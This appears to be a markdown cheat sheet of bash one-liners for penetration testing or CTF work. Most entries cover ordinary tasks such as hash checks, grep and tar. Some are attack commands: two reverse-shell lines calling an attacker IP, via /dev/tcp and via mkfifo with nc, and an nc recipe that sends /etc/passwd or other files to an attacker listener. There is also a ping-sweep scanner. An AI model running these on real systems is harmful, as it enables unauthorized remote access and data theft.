 # bash

### diff a file hash with its published value

`diff <(shasum -a 256 /path/to/file.ext) <(echo "published_sha256_value")`

use something like `... | sed 's/ .*$//'` to strip the extraneous info from the shasum cmd. Add info to the end of the published value to test.

`diff <(shasum -a 256 /path/to/file.ext | sed 's/ .*$//') <(echo "published_sha256_value")`

### carve a range of files by exact beginning and end

`ls -lh | grep "some_logs.log" | grep -E "1[3-9].gz|2[0-6].gz"`

Lists only `some_logs_13.gz` to `some_logs_26.gz`. Pipe that into whatever to do whatever.

### find hashes (hex) from output

`grep -a [a-f0-9]\{32\}`

Pipe output from things like `strings` here to finds hashes. The above will work for all hashes that are 32 characters or greater (md5, sha256, etc). Not perfect; will catch any string that matches the pattern, not just hashes. Adapt as needed. To find sha256 you could do

`grep -a [a-f0-9]\{64\}`

### reverse shell

`bash -i >& /dev/tcp/<attacker ip>/<listening port> 0>&1`

or if no `-e`

`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker ip listening port > /tmp/f`

### do things to entires in IPs.txt
`for ip in `cat ips.txt`; do md5sum $ip; done >> something.txt`

### ippsec's scanner
```bash
#!/bin/bash
# by Ippsec https://www.youtube.com/watch?v=kE36IGAU5rg

for i in $(seq 2 225); do
    ping -c 1 -W 1 172.20.0.$i 1>/dev/null 2>&1
    if [[ $? -eq 0 ]];  then
          echo "172.20.0.$i - Online"
    fi
done
```
### grep for a string recursively in a dir
```bash
grep -r --include "*.h" "get_return_address" .
# --include "*.h" --> search files ending in .h
```
### exfil /etc/passwd (OR ANYTHING) with nc
```bash
# set up listner on attack box, port 31337. Direct output to exfil.txt
nc -nvlp 31337 > exfil.txt
# on the target, use
nc <attacker_ip_addr> 31337 < /etc/passwd # replace /etc/passwd with whatever file you want to try
```

### if your tool can't handle cidr notation, do it the hard way (ex: is a 10.10.0.0/16)
```bash
for i in $(seq 1 255); do echo "10.10.$i.1-255"; done | tr "\n" ","
```
### Mount a CIFS share with your Kerberos ticket on Linux 
```bash
sudo mount -t cifs -o "sec=krb5,cruid=$UID,user=Administrateur,domain=http://FOO.BAR" //AD1.FOO.BAR/C$ /mnt/test
```
### tar and untar a directory
```bash
tar -zcvf archive.tar.gz directory/;
tar -zxvf archive.tar.gz
```
